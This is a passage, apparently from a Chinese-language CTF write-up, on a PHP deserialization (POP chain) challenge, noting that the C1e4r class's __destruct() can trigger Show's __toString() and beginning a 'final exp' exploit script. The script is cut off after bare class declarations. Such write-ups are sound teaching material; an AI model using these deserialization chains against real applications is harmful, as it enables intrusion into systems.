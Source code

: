 ![](assets/webwp-ff3f7dad.png)
而C1e4r类的__destruct()方法可以用来触发Show类的__toString方法
![](assets/webwp-f89cee69.png)
最终的exp
```php
<?php
class C1e4r{
    public $test;
    public $str;
}

class Show
{
    public $source;
    public $str;
}

class Test
{
    public $file;
    public $params;
```